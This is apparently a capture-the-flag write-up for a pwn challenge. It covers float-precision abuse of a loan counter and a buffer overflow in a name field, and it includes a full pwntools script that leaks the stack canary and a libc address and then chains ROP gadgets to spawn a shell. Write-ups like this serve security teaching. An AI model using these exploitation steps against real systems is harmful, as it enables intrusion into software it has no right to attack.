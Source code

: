 ## Table of Contents
- [Audit/no-name minor](#Auditno-name-minor)
- [Rev/CS1338: Script Programming](#RevCS1338:-Script-Programming)

# Audit/no-name minor

This was a challenge similar to the one I created for Battle of Hackers 2024 so we solved it relatively fast. The challenge provides us with a binary that presents a menu that allows the user to borrow a loan, repay the loan, mining for money, buy a name and change name. 

![image](https://github.com/user-attachments/assets/90df0d94-6313-47c3-98f0-9376ca855de0)

The goal is to get a name. But 

- To buy a name, you need to have money.
- To have money you cannot simply mine, cause it will take a lot of time.
- So you need to loan and then repay them.

The vulnerability lies in the way the program keeps track of the user's loan.

<details>
<summary>Source Code</summary>

```c
// Miner struct
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

// Loan function
void loan(struct MinerAccount *account) {
	uint32_t amount = 0;
    
	printf("How much loan would you like to request?\n");
	if(scanf("%d", &amount) != 1) {
    	printf("Invalid input\n");
    	return;
	}
    
	if(account->debt_balance + amount > MAX_LOAN) {
    	printf("Loan limit exceeded\n");
    	return;
	}

	account->cash += amount;
	account->debt_balance += amount;

	printf("Current cash: $%.2f\n", account->cash);
	printf("Debt balance: $%.2f\n", account->debt_balance);
}
```
</details>

The user's loan is defined as a float, which can be subjected to **floating point inaccuracy.**  A float is 32 bit and it has 1 bit for sign, 23 bit for mantissa and 8 bit for exponent. For integers, the inaccuracy starts at 2^24 (16,777,216). In other words, all integers can be represented as floats up to 2^24 but not beyond that. Specifically, in the range of 2^24 to 2^25, float does not support odd numbers, only even numbers.

<details>
<summary>Proof of Concept</summary>

### Proof of Concept

![image](https://github.com/user-attachments/assets/e75708b0-e383-4faa-bb98-5bbff0919289)

Heres a simple C program that demonstrates this

![image](https://github.com/user-attachments/assets/592a968a-5ee3-4b0d-a6b0-281de6eae7fa)

This is the output

</details>

### Exploiting the Program

Now, we just need to borrow money until 16777216, buy the name, and borrow loan of size $1 until we eventually are able to repay our loan.

![image](https://github.com/user-attachments/assets/ad4d18bc-c5af-45d3-b630-8f4067bb0321)

Buying the name

![image](https://github.com/user-attachments/assets/318be9bc-d5d2-419d-a6cb-637534776cb4)

After borrowing $1

### Buffer Overflow

<details>
<summary>Source Code</summary>

```c
#define MAX_BUF 0x200
struct MinerAccount {
	float cash;
	float debt_balance;
	int mining_attempts;
	char name[0x20];
};

void change_name(struct MinerAccount *account) {
	if (has_name_rights != 1) {
    	printf("You do not have the right to change your name.\n");
    	printf("Please purchase a name to gain the rights to rename your no-name.\n");
    	return;
	}
	if(account->debt_balance != 0) {
    	printf("You still have debts to repay.\n");
    	printf("Pay off your debts to rename your no-name.\n");
    	return;
	}
	printf("Enter new name.\n");
	read(0, account->name, MAX_BUF);

	printf("Name updated successfully.\n");
}

int main() {
	initialize();
	srand(time(NULL));
	struct MinerAccount account = {0, 0, 0, "no-name"};
	while(1) {
    	int choice;
    	printf("===========================\n");
    	printf("Welcome to %s\n", account.name);
    	printf("Current cash: $%.2f\n", account.cash);
    	printf("Debt balance: $%.2f\n", account.debt_balance);
    	printf("===========================\n");

    	printf("1. Loan\n2. Repayment\n3. Mining\n4. Buy Name\n5. Change Name\n6. Exit\nChoose an action.\n");
    	scanf("%d", &choice);
    	switch(choice) {
        	case 1:
            	loan(&account);
            	break;
        	case 2:
            	repayment(&account);
            	break;
        	case 3:
            	mining(&account);
            	break;
        	case 4:
            	buy_name(&account);
            	break;
        	case 5:
            	change_name(&account);
            	break;
        	case 6:
            	return 0;
        	default:
            	printf("Invalid choice\n");
            	break;
    	}
	}
	return 0;
}
```
</details>

The name in MinerAccount object was assigned to only 0x20 size, but in change_name function we can change up until 0x200. With the help of the printf() in main, we are able to leak the stack canary and libc address after overwriting enough bytes using read(). Putting it all together, we get 

1) We loan 16777216 money
2) Then we buy name so our money no 16777216 - 1337
3) Then if we loan 1 dollar each time, our cash increase, but debt stays the same. So we loan 1 dollar for 1337 times
4) Then can repay all debt
5) Now start the leaking process through name
6) Leak canary
7) Leak libc_start_main address
8) Proceed will rop chain to system

<details>
<summary>Exploit Script</summary>

```py
from pwn import *

exe = './prob'
elf = context.binary = ELF(exe, checksec = False)
io = elf.process()

context.log_level = 'info'

#---------------------------------------------------------------------
sleep(1)
#io.recvuntil(b'Choose an action.\n')
io.sendline(b'1')
#io.recvuntil(b'How much loan would you like to request?\n')
io.sendline(b'16777216')

#io.recvuntil(b'Choose an action.\n')
io.sendline(b'4')


for i in range(1337):
#	io.recvuntil(b'Choose an action.\n')
	io.sendline(b'1')
#	io.recvuntil(b'How much loan would you like to request?\n')
	io.sendline(b'1')

io.recvuntil(b'Choose an action.\n')
io.sendline(b'2')
io.recvuntil(b'How much would you like to repay?\n')
io.sendline(b'16777216')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*44)

io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
canary = io.recv(7).strip()
canary = b'\x00'+canary
canary = unpack(canary)
info(f'Canary: {hex(canary)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')
io.sendline(b'A'*59)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
libc_add = unpack(io.recv(6).strip().ljust(8,b'\x00'))
info(f'libc leaked : {hex(libc_add)}')

io.recvuntil(b'Choose an action.')
io.sendline(b'5')
io.recvuntil(b'Enter new name.')

libc = ELF('./libc.so.6')
libc.address = libc_add-0x29d90
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))

payload = b'A'*44
payload += p64(canary)
payload += b'A'*8
payload += p64(libc.address + 0x0000000000029cd6)
payload += rop.chain()
io.sendline(payload)

#--------------------------------------------------------------------
io.interactive()
```
</details>

# Rev/CS1338: Script Programming
